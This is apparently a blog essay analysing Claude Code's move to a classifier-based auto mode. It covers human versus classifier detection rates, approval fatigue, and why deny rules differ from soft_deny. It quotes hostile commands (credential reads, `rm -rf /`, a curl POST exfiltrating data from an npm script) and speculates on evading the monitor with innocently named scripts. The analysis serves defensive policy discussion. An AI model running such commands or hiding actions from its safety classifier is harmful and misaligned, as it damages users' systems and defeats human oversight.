





Here's the conclusion up front.

> Claude Code's default became auto mode on August 14 not because machine review beat human review. **The approval prompt never took a form that asked for a judgment in the first place.** The right way to read 13.6% is as a measure of a UI design flaw, not of human carelessness. And what organizations actually gained from handing the job to a classifier isn't "an AI's eyes." It's a deadline for writing `permissions.deny`.

I'll keep the recap of facts short, since you can read the numbers elsewhere. The "my take" section in the second half is the longer part.

---

## What happened

Anthropic announced on August 7, 2026 that it would **switch Claude Code's default permission mode to auto mode starting August 14**. It applies to Pro, Max, and Team plans. Enterprise, API, Bedrock, Vertex, and Foundry stay opt-in for now, with a rollout announced for "within the next month."

Auto mode doesn't remove the permission system. It changes who makes the call, from a human to a classifier. Every tool call passes through a separate classifier trained to detect actions that are irreversible, destructive, or aimed outside the local environment. File reads and writes, test runs, and local builds go straight through. Data exfiltration, mass deletion, privilege escalation, and pushes to untrusted destinations are stopped before they run.

You can switch back at any time with `Shift+Tab`. Admins can pin `defaultMode` in managed settings, or remove the option entirely with `disableAutoMode`. After three blocks in a row, or 20 in total across a session, it falls back to manual approval. In headless mode (`claude -p`) there is no fallback, and the process exits.

What's inside the classifier is described in an Anthropic engineering post from March 25. It has two stages.

> A single-stage classifier faces a direct performance/cost trade-off. (...) We tuned stage 1 to push recall higher than stage 2 on our real overeagerness testset, accepting 8.5% FPR as the cost. Stage 2 sees the same prompt and only the final instruction changes, asking for careful reasoning. That reduces the 8.5% FPR down to 0.4%.
>
> — [How we built Claude Code auto mode](https://www.anthropic.com/engineering/claude-code-auto-mode) (March 25, 2026)

Stage 1 is a fast filter told, with a single token, to lean toward blocking. Stage 2 is a closer look at the same input with reasoning added. Since the inputs are nearly identical, the prompt cache mostly hits. On top of that, the input layer has a prompt-injection detection probe, and the transcript classifier structurally "does not see" tool results. Poison one and the other never saw the poison, so getting past both at once is hard. Checks also run at both ends when work is delegated to a subagent and when its results come back.

As a design, I honestly think it's well made. That's not where the problem is.

## 13.6% and 89%

The basis Anthropic gave for the default change is a controlled experiment with 1,053 paid testers.

Participants worked in a dedicated test environment, not their own codebase. Partway through a session, one ordinary approval prompt was swapped for an obviously dangerous command. It was text only, and nothing was actually executed even if they approved. The only thing recorded was whether they noticed and refused. Participants knew they were being evaluated, but under the blind design they **weren't told what was being measured**.

| Metric | Human reviewers | auto mode |
| --- | --- | --- |
| Detection of the planted dangerous command | 13.6% (143 / 1,053) | 89% (937 / 1,053) |
| Cases where the other side stopped it and the human let it through | 800 | 6 |
| Detection rate early in the session | about 17% | flat |
| Detection rate after the 50th prompt | about 5% | flat |

I think the last row matters most. Humans get worse the longer a session runs. From 17% to 5%, less than a third. The classifier doesn't decay.

Real-world telemetry came out alongside it. Claude Code users approve **97%** of permission prompts (it was 93% at the time of the March engineering post, so up four points in half a year). As of June, 49.5% of active CLI users had created a Bash allow rule. 5% allow arbitrary shell commands, and 43% allow interpreters like Python or Node, which is effectively "run anything." 62% have tried either bypass permissions or Bash's "never ask again," and a quarter of interactive sessions start with permissions already bypassed.

Anthropic also re-scored sessions that its safety pipeline flagged for review in May and June 2026 (only from accounts that had consented to data use for training and analysis). For incidents at production-level severity (7 or higher on a 10-point scale, for example deleting rows in a production DB), **6.3%** of manual-approval sessions contained a harmful action the user hadn't explicitly asked for, versus **2.4%** of auto mode sessions. Worth noting that this compares within sessions that were already flagged, not across all sessions.

Lay the numbers out and the conclusion looks like "human review wasn't working." Plenty of explainer articles do say that. I think that's only half right. I'll explain why below.

## 66.3% and 13.6% don't contradict each other

Around the same time, an independent developer, Alex Wauters, was measuring the same question a different way. [llmgame.scalex.dev](https://llmgame.scalex.dev/) is a browser game where you approve or reject shell commands from an AI coding agent. It gathered more than 40,000 sessions and 409,000 decisions.

The average accuracy there is **66.3%**: "one in three threats gets missed." An order of magnitude away from Anthropic's 13.6%.

It's not a contradiction. The designs differ. Game players judge in an unusually dense environment where about 34% of commands are threats, and they know "this is a test." Anthropic's testers hit a planted command exactly once in 1,053 sessions, with no reason to be suspicious.

So these two numbers measure **a human on alert (66.3%) and a human off alert (13.6%)**. Real developers work under the latter condition. 66.3% is the upper bound.

What's interesting in Wauters's data is the breakdown.

| Threat category | Example | Miss rate |
| --- | --- | --- |
| Obvious destruction | `rm -rf /`, `chmod -R 777 /` | 11.7% |
| Persistent modification | crontab injection, git config hijack | 23.8% |
| Exfiltration / code execution | `curl` to an unknown package | 33.4% |
| Scope violation | `cat ~/.aws/credentials`, `cat ~/.kube/config` | 35.0% |

The most successful attack in the dataset wasn't a scary-looking one-liner. It was `npm run analyze`. **64.7% approved it**, even though the in-game agent history log showed that the `package.json` script was sending build stats to `curl -s -X POST https://api.bundle.track/report`.

`npm run setup` was missed by 48.0%, and `npm run deploy` by 44.9%. Pool those three and the miss rate is 52.5% (n=9,482). Other exfiltration attacks that weren't disguised by name: 28.4%. **Just naming the script something developers already trust roughly doubles the attack's success rate.**

The opposite direction was measured too: over-blocking safe commands. `npm config set registry https://npm.internal`, which points at an internal mirror, was blocked by 59%. `rm -rf dist/`, cleaning build output, by 45%. `kill $(lsof -t -i:3000)`, freeing the port of a dead dev server, by 43%. 35.2% of players caught every threat, but only 20.8% did it while keeping over-blocking to one in five or less. The rest got a perfect score by "rejecting almost everything." That's not a strategy you can use with someone who wants the agent to get work done.

32.9% of sessions ended with a negative final score. 7% approved everything.

---

That's the facts. What follows is my take.

## My take 1: The real numbers aren't 13.6%. They're "39% and 3%"

Inside Anthropic's telemetry there's a pair of numbers almost nobody quotes.

**Users reject 39% of the plans Claude presents. They reject only 3% of individual permission requests.**

The same humans, in the same sessions, say "no" 13 times as often to one as to the other.

The moment you see this pair, 13.6% reads differently. Human judgment hasn't degraded. **When something is presented in a form that can be judged, humans judge it properly.** A plan has context. It says what the agent is trying to do and why. That's why 39% get rejected.

A permission prompt has none of that. When it asks "may I run `npm run analyze`?", the only thing on screen is the command string. The contents of `package.json` aren't shown. Neither is the goal of running it. You're asked for a yes or no while the information the judgment needs is structurally missing.

Blake Crosley breaks this down into four failures.

> Approval prompts fail when they compress a high-context decision into a low-context click.
>
> — [AI Agent Approval Prompts Are Not Authorization](https://blakecrosley.com/blog/ai-agent-approval-prompts-not-authorization)

Loss of scope (you can see the tool name but not the resource, tenant, or blast radius), loss of grounds (you can see the requested action but not evidence that it's legitimate), fatigue, and persuasion (the agent itself wraps the risk in fluent language).

`npm run analyze` in Wauters's game is a hole made by "loss of grounds" alone among those four. Players weren't looking at what was inside the script they were about to approve. It was in the history log if they'd cared to look, but the command name ended the judgment first.

So reading 13.6% as "humans are bad at this" strikes me as sloppy. The accurate reading is **humans placed in that UI are bad at this.** The same humans reject 39% in plan review. What was measured wasn't the human but the screen.

## My take 2: A classifier is not authorization. It's just a change of reviewer

Going from 13.6% to 89% is progress. I'll grant that. In measured terms, the rate of harmful actions slipping in at production severity fell from 6.3% to 2.4%. Real harm went down.

But 89% and 13.6% are both **results for the same job title**: "the one who looks at a presented action and decides on the spot whether to let it through or stop it." It's a swap to a better reviewer, not the acquisition of authorization.

Authorization means declaring the boundary in advance. "This process doesn't touch the production DB." "This machine can't reach the external network." "This token only has read." A control is something shaped so that no matter who judges what, they can't get outside it. It sits on a different axis from how good the judgment is.

And inside Claude Code, only one thing corresponds to authorization: `permissions.deny` in managed settings. It blocks before the classifier is even consulted, and user settings can't override it.

Auto mode's `soft_deny` is different. Anthropic itself writes this in the documentation.

> a developer-added `allow` entry can override an organization `soft_deny` entry: the combination is additive, **not a hard policy boundary**.

Even if a platform team writes "don't run migrations from anything but the dedicated CLI" into `autoMode.soft_deny` in managed settings, one engineer adding a matching `allow` line in their home directory makes it vanish. The documentation itself gives that example.

Given that, I don't think what organizations actually got from this default change is the classifier. They got **a reason, with a deadline of August 14, to tell the whole company to "translate the prohibitions written in Japanese in CLAUDE.md into `permissions.deny`."** That's the substance. I take the classifier as a well-made bonus.

"Don't touch production." "Don't force push." "Don't rewrite the migrations directory." Where do those three lines live today? If in Markdown, it's not a control. If in JSON, it is. I think that's what this change really put to the test.

## My take 3: This is a different story from replacing review with a linter

I once wrote something to the effect that "safe coding practices can't be enforced by review." It was about GitHub Actions injection: Copilot and GHAS both passed it, and `zizmor` found it with one command. The claim then was "replace human review with a deterministic checker."

This case looks similar, but the content differs. What replaced the human is **probabilistic**.

A deterministic linter returns the same answer for the same input. So you can say afterward, "this rule passed." It's auditable, reproducible, and counts as a "control" in the SOC 2 or ISO 27001 sense.

A classifier isn't like that. Stage 1 has an 8.5% false-positive rate, stage 2 0.4%. It misses 11% of the planted commands. There's no guarantee anywhere that the same command gets the same verdict. It's an excellent reviewer, but it isn't a control.

This distinction isn't wordplay. It matters after an incident. With a deterministic deny rule, the answer to "why did it get through?" is one of two things: there was no rule, or the rule was wrong. With a classifier, it ends at "that's how it was judged at the time." The root-cause analysis never closes.

So I'm logging auto mode as "friction removal," not "a security improvement." The safety gain is real as a side effect (6.3% to 2.4% is a real number), but it can't go in the controls column. The only thing that can go in the controls column is the number of lines in your deny rules.

## My take 4: The classifier may also be looking at "how dangerous it looks" (I haven't confirmed this)

The asymmetry in Wauters's data tells us what humans are detecting. `rm -rf /` gets stopped 88.3% of the time. `cat ~/.aws/credentials` only 65%. What humans detect isn't danger but **dangerous-looking appearance**. Syntactically, `cat ~/.aws/credentials` has exactly the same shape as `cat README.md`.

What I wonder here is whether the classifier has the same bias.

How does `npm run analyze` look to the classifier? Anthropic's design is a transcript classifier, which looks at the agent's action history. Then the verdict should change depending on whether the contents of `scripts.analyze` in `package.json` are in that history. If the agent read `package.json` just before, the contents are in the transcript. If not, all the classifier sees is the string `npm run analyze`. It looks structurally like falling into the same trap humans fell into, for the same reason.

I haven't confirmed this. Anthropic's engineering post says the transcript classifier is designed not to "see" tool results, but it doesn't say how much of an already-read file's contents, like `package.json`, goes into the classifier's input. I also haven't tried `npm run` disguises myself. So I'm not asserting it. But **if the classifier has inherited the same "judge by name" bias as humans, then the number 89% doesn't tell you where the first hole an attacker will aim for is.** Here the point made by techi, that 89% was measured on a command set Anthropic chose, starts to bite.

For anyone who wants to verify, I think it's easy: plant outbound traffic in an innocently named npm script and run it under auto mode. I haven't done it.

## My take 5: What the approval prompt provided was not safety, but a place to put responsibility

This is what I most want to say.

Why was the approval prompt never removed, even at 97% approval? Anthropic itself admitted back in March that it wasn't working, writing "93% are approved." It still stayed for half a year.

My reading is that it functioned less as a safety device than as **a device for transferring responsibility**. When an incident happens, there's a record that lets you say "the user approved it." The user can say "I looked and let it through" too. Even if in reality they looked at nothing, it holds up as procedure. It's the same structure as a cookie banner. A CHI 2020 study found that only 11.8% of banners met the legal requirements for informed consent. They're still on every site. The goal isn't to obtain consent but to keep a record that consent was obtained.

Auto mode removed this device. And the responsibility didn't move. Anthropic states plainly that it "does not eliminate risk" and continues to recommend manual review for important production changes. In other words, when an incident happens, the responsibility is still with the user.

**Only the opportunity to judge went away. The responsibility stayed exactly where it was.**

I think this is the one thing in this change that got straightforwardly worse. Everything else falls within trade-offs, but this one runs in a single direction. It went from "I didn't look, but I pressed it" to "I was never shown it, but it's on me."

That's exactly why we come back to writing deny rules. If the opportunity to judge isn't coming back, judgment has to move earlier. Stop deciding one by one during the session, and declare the boundary before the session starts. That's the only way to line up where responsibility sits with where authority sits.

As an aside, attackers are already coming in this direction. In March 2026, an entry called "Human Approval Fatigue Exploitation" was added to a threat-detection ruleset for agents. Generating floods of approval requests, wrapping dangerous actions in everyday phrasing, slipping a single one into a batch of harmless operations. It maps to ASI09 "Human-Agent Trust Exploitation" in OWASP's Agentic Top 10. The detection logic looks at the language, and phrases like "just click approve for all" and "nothing to worry about, batch execute these" are themselves treated as adversarial signals. Approval fatigue is no longer a side effect. It has been named as an attack surface.

## So what do you do tomorrow

Just three things.

Check where managed settings live and how they're distributed (macOS: `/Library/Application Support/ClaudeCode/`, Linux/WSL: `/etc/claude-code/`, Windows: `C:\Program Files\ClaudeCode\`). If you can't answer "how does a policy change reach 300 laptops?", you don't have a control, you have a wiki page.

Translate the top five prohibitions scattered across `CLAUDE.md` into `permissions.deny`. Not `soft_deny` but `deny`. The side that `allow` can't override.

Put `permissions.ask` on `git push` and `gh pr create`. Keep auto mode on, and return only the operations that go outside to a human. Remember that plans get rejected 39% of the time while individual approvals get rejected only 3%. If you're going to ask a human, asking "only at the moment something goes outside" works better than asking "one by one."

If you take away just one thing, make it the difference between `soft_deny` and `deny`. One disappears with a single engineer's settings file. The other doesn't.

---

## Sources

- Anthropic, [How we built Claude Code auto mode: a safer way to skip permissions](https://www.anthropic.com/engineering/claude-code-auto-mode) (March 25, 2026): the two-stage classifier design, the 93% approval rate, false-positive rate 8.5% to 0.4%
- Anthropic, [Auto mode is now the default in Claude Code for Pro, Max, and Team plans](https://claude.com/blog/auto-mode-default-in-claude-code) (August 7, 2026, by Conner Phillippi et al.): the 1,053-tester experiment, 13.6% / 89%, the 97% approval rate, plans 39% vs. permissions 3%, 6.3% vs. 2.4%
- Anthropic, [Configure permissions](https://code.claude.com/docs/en/permissions): precedence of `deny` / `ask` / `allow`, managed settings
- Saba Javed, [Claude Code will default to auto mode despite an 11% test miss rate](https://www.techi.com/claude-code-auto-mode-default-11-percent-miss-rate/), TECHi (August 2026): criticism of the experiment's denominator, telemetry (49.5% / 62% / plans 39% vs. permissions 3%)
- [Claude Code Stops Asking Aug 14. Prompts Aren't Policy.](https://www.beri.net/article/claude-code-auto-mode-default-august-14-deny-rules-not-prompts), THE D\*AI\*LY BRIEF (August 2026): `soft_deny` not being a hard policy boundary, where managed settings live
- explainx.ai, [Claude Auto Mode: 89% vs 13.6% Human Catch Rate](https://www.explainx.ai/blog/claude-code-auto-mode-default-pro-max-team-august-2026) (August 2026): rollout scope, fallback conditions
- Alex Wauters, analysis at [llmgame.scalex.dev](https://llmgame.scalex.dev/) and [scalex.dev](https://scalex.dev/) / explainx.ai, [AI Agent Approval Game: Humans Missed 1 in 3 Threats](https://explainx.ai/blog/alex-wauters-ai-agent-approval-game-40000-plays-data-august-2026) (August 6, 2026): 409,000 decisions, miss rates by category, `npm run analyze`
- Blake Crosley, [AI Agent Approval Prompts Are Not Authorization](https://blakecrosley.com/blog/ai-agent-approval-prompts-not-authorization): the four ways approval prompts fail
- Maria Paktiti, [Approval fatigue is agent governance's next attack surface](https://workos.com/blog/approval-fatigue-agent-governance), WorkOS (August 5, 2026): Human Approval Fatigue Exploitation, the CHI 2020 cookie-banner study

## What I haven't confirmed

I've read the originals of Anthropic's August 7 announcement, the March engineering post, and the permissions documentation. Every number in the body has been checked against the text of the August 7 announcement.

I read Wauters's game data through explainx.ai's write-up, not his original post. The per-category miss rates and the 64.7% for `npm run analyze` are numbers explainx.ai cited, and I haven't checked the primary analysis page.

I haven't tested on my own machine whether an `npm run` disguise gets past auto mode's classifier. Take 4 is written as conjecture.
